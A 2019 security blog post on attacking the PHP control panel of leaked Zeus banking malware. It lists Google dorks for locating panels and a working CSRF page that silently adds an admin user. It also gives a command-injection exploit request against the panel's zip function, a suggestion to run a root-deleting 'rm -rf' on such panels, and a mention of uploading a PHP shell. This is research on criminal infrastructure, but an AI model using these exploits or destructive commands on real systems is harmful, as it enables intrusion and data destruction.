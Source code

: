 ```yaml
---           
layout: post
title: Attacking financial malware botnet panels - Zeus
date: 2019-10-08 14:00:32 UTC
updated: 2019-10-08 14:00:32 UTC
comments: false
categories: botnet remote code execution Zeus
---
```

<div style="">I played with leaked financial malware recently. When I saw these panels are written in PHP, my first idea was to hack them. The results are the work of one evening, please don't expect a full pentest report with all vulns found :-)</div><div style=""><br/></div><div style="">The following report is based on Zeus 2.0.8.9, which is old, but I believe a lot of Zeus clones (and C&amp;C panels) depend on this code.</div><div style=""><br/></div><div style="">First things first, here are some Google dorks to find Zeus C&amp;C server panel related stuff:</div><div style=""></div><ul><li>inurl:cp.php?m=login - this should be the login to the control panel</li><li>inurl:_reports/files  - in these folders you can find the stolen stuff, pretty funny if it gets indexed by Google</li><li>inurl:install/index.php - this should be deleted, but I think this is useless now.</li></ul><br/><div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus1.png" src="https://z6543.github.io/_img/Zeus1.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus1.png" width="400"/></a></div><br/><h3>Boring vulns found</h3><ul><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Credentials_Transported_over_an_Encrypted_Channel_(OWASP-AT-001)">Clear text HTTP login</a> - you can sniff the login password via MiTM, or steal the session cookies</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_password_policy_(OWASP-AT-008)">No password policy</a> - admins can set up really weak passwords</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Weak_lock_out_mechanism_(OWASP-AT-004)">No anti brute-force</a> - you can try to guess the admin's password. Default username is admin</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_Vulnerable_Remember_Password_(OWASP-AT-006)">Password autocomplete enabled</a> - boring</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_cookies_attributes_(OWASP-SM-002)">Missing HttpOnly flag on session cookie</a> - it could be nice if I could find any XSS. I need more time to find one!</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_CSRF_(OWASP-SM-005)">No CSRF protection</a> - except on the password change, where the old password is needed :-( boring</li></ul>Update: You can use the CSRF to create a new user with admin privileges:<br/><div><div><pre class="prettyprint linenums lang-html">&lt;html&gt;<br/>&lt;head&gt;<br/>    &lt;title&gt;&lt;/title&gt;<br/>&lt;/head&gt;<br/>&lt;body&gt;<br/>    &lt;pre&gt;<br/>  This is a CSRF POC to create a new admin user in Zeus admin panels.<br/>  Username: user_1392719246 Password: admin1<br/>  You might change the URL from 127.0.0.1.<br/>  Redirecting in a hidden iframe in &lt;span id="countdown"&gt;10&lt;/span&gt; seconds.  <br/>&lt;/pre&gt;<br/>&lt;iframe id="csrf-frame" name="csrf-frame" style="display: none;"&gt;&lt;/iframe&gt;<br/>    &lt;form action="http://127.0.0.1/cp.php?m=sys_users&amp;amp;new" id="csrf-form" method="post" name="csrf-form" target="csrf-frame"&gt;<br/> &lt;input name="name" type="hidden" value="user_1392719246" /&gt; <br/> &lt;input name="password" type="hidden" value="admin1" /&gt; <br/> &lt;input name="status" type="hidden" value="1" /&gt; <br/> &lt;input name="comment" type="hidden" value="PWND!" /&gt;<br/> &lt;input name="r_botnet_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts" type="hidden" value="1" /&gt; <br/> &lt;input name="r_botnet_scripts_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_edit_bots" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_db_edit" type="hidden" value="1" /&gt; <br/> &lt;input name="r_reports_files" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_files_edit" type="hidden" value="1" /&gt;<br/> &lt;input name="r_reports_jn" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_main_reset" type="hidden" value="1" /&gt; <br/> &lt;input name="r_stats_os" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_info" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_options" type="hidden" value="1" /&gt;<br/> &lt;input name="r_system_user" type="hidden" value="1" /&gt; <br/> &lt;input name="r_system_users" type="hidden" value="1" /&gt;<br/>    &lt;/form&gt;<br/>&lt;script type="text/javascript"&gt;<br/> window.onload=function(){ <br/>  var counter = 10;<br/>  var interval = setInterval(function() {<br/>   counter--;<br/>   document.getElementById('countdown').innerHTML = counter;<br/>   if (counter == 0) {<br/>    redirect();<br/>    clearInterval(interval);<br/>   }<br/>  }, 1000);<br/> };<br/>    function redirect() {<br/>  document.getElementById("csrf-form").submit();<br/>    }<br/>    &lt;/script&gt;<br/>&lt;/body&gt;<br/>&lt;/html&gt;<br/></pre><ul><li style="text-align: justify;">MD5 password - the passwords stored in MySQL are MD5 passwords. No <a href="http://www.unlimitednovelty.com/2012/03/dont-use-bcrypt.html">PBKDF2, bcrypt, scrypt, salt</a>, whatever. MD5.</li><li style="text-align: justify;"><a href="http://www.contextis.com/research/tools/clickjacking-tool/">ClickJacking</a> - really boring stuff</li><li style="text-align: justify;">Remember me (MD5 cookies) - a very bad idea. In this case, the remember me function is implemented in a way where the MD5 of the password and MD5 of the username is stored in a cookie. If I have XSS, I could get the MD5(password) as well.</li><li style="text-align: justify;"><a href="https://www.owasp.org/index.php/Testing_for_SQL_Injection_(OWASP-DV-005)">SQLi</a> - although concatenation is used instead of parameterized queries, and addslashes are used, the integers are always quoted. This means it can be hacked only in case of special encoding like GB/Big5, pretty unlikely.</li></ul><br/><h3>Whats good news (for the C&amp;C panel owners)</h3><br/>The following stuff looks good, at least some vulns were taken seriously:<br/><ul><li>The system directory is protected with .htaccess deny from all.</li><li>gate.php - this is the "gate" between the bots and the server, this PHP is always exposed to the Internet. The execution of this PHP dies early if you don't know the key. But you can <a href="http://blog.threatexpert.com/2009/09/time-to-revisit-zeus-almighty.html">get the key</a> from the binary of this specific botnet (<a href="http://mnin.blogspot.be/2011/09/abstract-memory-analysis-zeus.html">another URL how to do this</a>). If you have the key, then you can fill the database with garbage, but that's all I can think of now.</li><li>Anti <a href="https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OWASP-DV-001)">XSS</a>: the following code is used almost everywhere</li><pre class="prettyprint lang-js">return htmlspecialchars(preg_replace('|[\x00-\x09\x0B\x0C\x0E-\x1F\x7F-\x9F]|u', ' ', $string), ENT_QUOTES, 'UTF-8');</pre>My evil thought was to inject malicious bot_id, but it looks like it has been filtered everywhere. Sad panda.</ul><br/><h3>What's really bad news (for the C&amp;C panel owners)</h3><br/>And the best vuln I was able to find, <a href="https://www.owasp.org/index.php/Testing_for_Command_Injection_(OWASP-DV-013)">remote code execution</a> through command injection (happy panda), but only for authenticated users (sad panda).<br/><br/>The vulnerable code is in system/fsarc.php:<br/><br/><div class="separator" style=""><a href="https://z6543.github.io/_img/Zeus2.png" src="https://z6543.github.io/_img/Zeus2.png" style="margin-left: 1em; margin-right: 1em;"><img border="0" height="" src="https://z6543.github.io/_img/Zeus2.png" width="400"/></a></div><pre class="prettyprint lang-php">function fsarcCreate($archive, $files){<br/>   ...<br/>   $archive .= '.zip';<br/>   $cli = 'zip -r -9 -q -S "'.$archive.'" "'.implode('" "', $files).'"';<br/>   exec($cli, $e, $r);<br/>}</pre><br/>The exploit could not be simpler: <br/><pre class="prettyprint lang-html">POST /cp.php?m=reports_files&amp;path= HTTP/1.1<br/>...<br/>Content-Type: application/x-www-form-urlencoded<br/>Content-Length: 60<br/><br/>filesaction=1&amp;files%5B%5D=files"||ping%20-n%2010%20127.0.0.1<br/></pre>because the zip utility was not found on my Windows box. You can try to replace || with &amp;&amp; when attacking Windows (don't forget to URL encode it!), or replace || with ; when attacking Linux. You can also link this vulnerability with the CSRF one, but it is unlikely you know both the control panel admin, and the control panel URLs. Or if this is the case, the admin should practice better OPSEC :)<br/>Recommendation: use <a href="http://www.php.net/manual/en/function.escapeshellcmd.php">escapeshellcmd</a> next time.<br/><br/>Next time you find a vulnerable control panel with a weak password, just rm -rf --no-preserve-root / it ;-)<br/><br/>That's all folks!<br/>Special greetz to Richard (XAMPP Apache service is running as SYSTEM ;-) )<br/><br/><b>Update:</b> Looks like the gate.php is worth to investigate if you know the RC4 key. <a href="http://cybercrime-tracker.net/zeus.php">You can upload a PHP shell :)</a></div></div>